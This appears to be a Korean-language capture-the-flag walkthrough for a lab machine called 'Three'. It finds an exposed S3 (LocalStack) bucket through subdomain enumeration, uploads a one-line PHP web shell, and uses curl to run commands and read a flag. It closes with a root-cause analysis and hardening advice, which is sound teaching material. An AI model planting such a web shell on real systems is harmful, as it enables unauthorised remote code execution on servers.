# Three

## 개요
이 문제는 AWS S3 버킷이 외부에 노출되어 있고 파일 업로드 권한이 허용된 취약점을 이용한다. 서브도메인 enumeration으로 S3 서비스를 발견하고, 버킷에 PHP 웹셸을 업로드하여 원격 코드 실행 후 flag를 획득하는 과정이다. 핵심은 잘못된 S3 접근 제어 설정과 웹셸 업로드를 통한 RCE이다.

---

## 대상 정보
- Target IP: <TARGET_IP>
- OS: Linux (Ubuntu)
- Service: SSH (22/tcp), HTTP (80/tcp)

---

## 1. 서비스 발견

기본 nmap 스캔을 통해 열린 포트와 서비스를 확인한다.
```bash
nmap -sC -sV $IP
```



22번 포트에서 OpenSSH 7.6p1, 80번 포트에서 Apache httpd 2.4.29가 실행 중이며 웹 타이틀이 "The Toppers"인 것을 확인할 수 있다.

---

## 2. 웹 페이지 확인 및 도메인 발견

브라우저로 접속하여 웹 서비스를 확인한다.



Contact 섹션에서 이메일 주소를 확인한다.



`mail@thetoppers.htb` 이메일을 통해 도메인이 `thetoppers.htb`임을 확인할 수 있다.

---

## 3. /etc/hosts 등록

발견한 도메인을 로컬에 등록한다.
```bash
echo "10.129.14.13 thetoppers.htb" | sudo tee -a /etc/hosts
```



---

## 4. 서브도메인 enumeration

gobuster로 가상 호스트 기반 서브도메인을 스캔한다.
```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```



`s3.thetoppers.htb` 서브도메인이 발견되는 것을 확인할 수 있다. S3는 AWS의 오브젝트 스토리지 서비스로, 해당 서버에서 LocalStack으로 운영 중임을 알 수 있다.

---

## 5. s3 서브도메인 hosts 등록

발견한 S3 서브도메인을 로컬에 추가로 등록한다.
```bash
echo "10.129.14.13 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```



---

## 6. AWS CLI 설정

S3 서비스와 상호작용하기 위해 AWS CLI를 설정한다.
```bash
aws configure
```



LocalStack은 인증을 엄격하게 검사하지 않으므로 임시 값(`temp`)을 입력해도 접근이 가능하다.

---

## 7. S3 버킷 목록 확인

S3 서비스에 존재하는 버킷 목록을 조회한다.
```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb
```



`thetoppers.htb` 버킷이 존재하는 것을 확인할 수 있다.

---

## 8. 버킷 내부 파일 확인

버킷 내부 파일 목록을 조회한다.
```bash
aws s3 ls s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb
```



`index.php` 파일이 존재하는 것을 확인할 수 있다. 이 버킷이 웹 서버 루트 디렉토리와 연동되어 있음을 알 수 있다.

---

## 9. PHP 웹셸 생성 및 업로드

PHP 웹셸 파일을 생성하고 S3 버킷에 업로드한다.
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws s3 cp shell.php s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb
```





버킷에 쓰기 권한이 허용되어 있어 PHP 파일 업로드가 가능하다.

---

## 10. 웹셸 동작 확인

업로드한 웹셸이 정상적으로 실행되는지 확인한다.
```bash
curl "http://thetoppers.htb/shell.php?cmd=whoami"
```



`www-data`가 출력되며 웹셸을 통한 원격 코드 실행이 성공한 것을 확인할 수 있다.

---

## 11. flag 획득

웹셸을 통해 flag 파일을 읽는다.
```bash
curl "http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt"
```



`/var/www/flag.txt` 경로에서 flag를 성공적으로 획득할 수 있다.

---

## 12. 취약점 원인 분석

- S3 버킷이 외부 네트워크에 노출됨
- 버킷에 인증 없이 파일 업로드 가능한 퍼블릭 쓰기 권한 허용
- S3 버킷이 웹 서버 루트 디렉토리와 연동되어 업로드한 PHP 파일이 즉시 실행됨
- 서버 측 파일 타입 검증 부재

---

## 13. 실제 환경에서의 위험성

- 웹셸 업로드를 통한 원격 코드 실행
- 서버 내부 파일 열람 및 수정 가능
- 추가적인 권한 상승 공격으로 확장 가능
- 내부 네트워크 침투 발판으로 활용 가능

---

## 14. 핵심 정리

- S3 버킷은 퍼블릭 쓰기 권한을 절대 허용해서는 안 된다
- 버킷 정책과 ACL을 통해 최소 권한 원칙을 적용해야 한다
- 웹 서버와 연동된 스토리지에는 업로드 파일 타입 검증이 필요하다
- 서브도메인 enumeration을 통해 숨겨진 서비스가 노출될 수 있다
